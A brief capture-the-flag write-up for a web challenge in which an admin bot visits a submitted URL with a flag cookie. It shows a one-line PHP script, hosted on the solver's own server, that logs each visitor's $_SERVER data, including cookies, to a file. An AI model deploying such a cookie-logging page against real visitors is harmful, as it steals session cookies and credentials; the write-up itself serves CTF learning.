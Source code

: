 ## IMAGELOVER - 70 PTS

### CHALLENGE
Find imagelover here (http://hack.bckdr.in:6969/)   
Imagelover loves viewing pictures of people. He has opened this website so that you can share your pics with him. Imagelover visits the image with his flag as a sign of gratitude.

### SOLUTION
* The challenge asked us to provide a url which the admin would be visiting carrying along with him the flag.
* We tried to include some simple script tags in the url but it didn't accept them.   
`There was some issue with your url, check and submit again`    
* Then, we tried simple urls and realized there was no check on the url, except for http:// and that it accepted .php .html, etc.
* So, we hosted a php script online     
`<?php $fh = fopen('ans.txt', 'a'); fwrite($fh, print_r($_SERVER,true)); fclose($fh); ?>`    
which saved the contents of `$_SERVER` in a file in order to look for cookies.
* And when we opened the `ans.txt` file, we had     
`Array ( ... [HTTP_COOKIE] => flag=<---------------------------- ...)`